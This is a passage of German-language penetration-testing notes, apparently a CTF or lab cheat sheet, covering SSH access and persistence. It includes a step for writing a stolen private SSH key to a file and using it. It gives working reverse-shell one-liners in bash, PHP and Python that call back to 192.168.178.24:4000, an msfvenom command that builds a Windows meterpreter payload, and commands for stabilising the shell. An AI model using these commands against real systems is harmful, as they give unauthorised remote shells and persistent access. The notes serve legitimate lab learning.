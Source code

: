 3. Auch hier wieder SSH Version checken und schauen ob es vulnerabilities gibt (ExploitDB, Google, GTFObins)

4. Passwörter die wo anders verwendet wurden nochmal versuchen

5. Kann man den private ssh-key von einem User extrahieren? (Über Exploit oder directory-traversal)
```bash
# SSH-Key in Datei schreiben
echo "<Private ssh-key>" >> ssh-key

# Berechtigungen von SSH-Key verändern, sonst wirft ssh error
sudo chmod 600 ssh-key

# SSH verwenden mit dem key
ssh user@127.0.0.1 -i ssh-key
```


## Persistance

#### Reverse Shell

Es gibt 2 Wege Reverse Shells zu erstellen:

1. Commands (Hacktools/Revshells hat da einige anzubieten)

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.178.24/4000 <&1'
```

```php
php -r '$sock=fsockopen(getenv("192.168.178.24"),getenv("4000"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.178.24",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

2. Über ein Payload
	- Einfach googeln nach der Revshell z.B. php reverseshell
	- Mit Metasploit eine erstellen
	
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe LHOST=192.168.178.24 LPORT=4000 -o ./payload.exe
```


Wenn man eine Reverse Shell hat sollte man sie bei (Unix) Systemen harden, damit sie bei "ctrl + c" nicht abstürzt und dass autocomplete dabei ist.

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```
